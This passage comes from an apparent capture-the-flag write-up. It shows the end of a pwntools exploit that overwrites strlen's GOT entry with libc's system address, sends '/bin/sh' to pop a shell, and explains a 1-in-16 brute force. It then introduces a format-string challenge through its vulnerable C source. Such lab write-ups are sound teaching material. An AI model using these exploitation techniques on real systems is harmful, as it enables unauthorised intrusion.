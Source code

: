 ```python

payload += p64(((libc.sym.system-1472) & 0xFFFF0) >> 8)
payload += p64(elf.got.strlen+1)

p.sendline(payload)
p.sendline(b'/bin/sh')

p.interactive()
```

However for some reason, out of the 4 bits that we attempt to modify, only the last 3 bits are changed to our liking. 

Nevertheless, this just means that we have to brute force 1 bit, which would give us a favourable likelihood of 1/16 to pop a shell! 

## Format String Fun (474 pts) - 18 solves
---

>
> One format string to rule them all, one format string to find them. One format string to bring them all, and in the darkness bind them.
> Author: Eth007
>
> [fmt_fun](attachments/pwn/fmt_string_fun/fmt_fun) [libc.so.6](attachments/pwn/fmt_string_fun/libc.so.6)
>

### Analysis

```c
int main()
{
  // ignore setvbuf
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 2, 0);
  
  puts("Welcome to Format Fun!");
  puts("I'll print one, AND ONLY ONE, string for you.");
  puts("Enter your string below:");

  // 400 bytes of input vulnerable to format string attack
  fgets(buf, 400, stdin);
  printf(buf);
  return 0;
}

int win()
{
  return system("cat flag.txt");
}
```
